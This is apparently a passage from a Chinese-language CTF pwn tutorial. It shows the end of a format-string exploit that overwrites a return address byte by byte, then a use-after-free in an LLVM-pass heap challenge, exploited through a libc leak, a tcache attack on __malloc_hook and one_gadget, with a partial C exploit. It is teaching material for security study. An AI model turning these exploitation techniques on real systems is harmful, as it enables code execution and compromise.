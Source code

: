 ```python
payload =  generate_hhn_payload(0xc0,  ((ret_addr) & 0xff ) )
payload += generate_hhn_payload(0xc8, ( (ret_addr >> 8) & 0xff ) )
payload += generate_hhn_payload(0xd0, ( (ret_addr >> 16) & 0xff ))
payload += generate_hhn_payload(0xd8, ( (ret_addr >> 24) & 0xff ))
payload += generate_hhn_payload(0xe0, ( (ret_addr >> 32) & 0xff ))
payload += generate_hhn_payload(0xe8, ( (ret_addr >> 40) & 0xff ))
payload = payload.ljust(0xc0, b"\x00")
payload += p64(stack_buf + 0 + 0x118)
payload += p64(stack_buf + 0 + 0x119)
payload += p64(stack_buf + 0 + 0x11a)
payload += p64(stack_buf + 0 + 0x11b)
payload += p64(stack_buf + 0 + 0x11c)
payload += p64(stack_buf + 0 + 0x11d)
sl(payload)
# ===========exp ends=============
```

其实 libc 中也存在 `ONE_GADGET`，即直接 getshell 的代码片段，感兴趣的同学可以自行了解。

---

# 编译原理大作业

这是一道为了体现我们科大网安的编译原理h水平而出的附加题（并不算分），其实只是用 llvm pass 来包装了一下原本放在这里的一道堆题，漏洞出现在 FunctionPass 中处理函数名为 qiaoKe 时的 free 后未置零（即 UAF）：

```c
if (Name == "qiaoKe") {
    // delet
    if (arg_count != 2) {
        return false;
    }
    unsigned int stu_id = dyn_cast<ConstantInt>(inst->getArgOperand(0))->getZExtValue();
    if (stu_id >= 0x10 || !studentList[stu_id]){
        return false;
    }
    free(studentList[stu_id]);
    // studentList[stu_id] = 0;
}
```

用的 libc 版本是 2.31，于是可以直接用 unsorted bin 获得 libc 地址，用 tcache 打 malloc hook 即可。

使用 `clang-10 -emit-llvm ./exp.c -S -o ./exp.ll` 得到 ll 代码，使用 `./opt-10 -load ./bianYiYuanLiXiTiKe.so -bianYiYuanLiXiTiKe /root/workspace/ustc-pwn-tutorial/attachments/chp4/chpe-0/exp.ll` 本地运行测试。

利用代码如下：

```c
#define ONE_GADGET 0xe3afe
#define MAIN_ARE_OFF 0x1ecbe0
#define MALLOC_HOOK 0x1ecb70

void qiaoKe(int);
void dianMing(char *, int);
void daBian(int);
void xiaoCe(int);
void add(int, long);
void mov(int, int);
void classBegin() {
  dianMing(
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
      "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```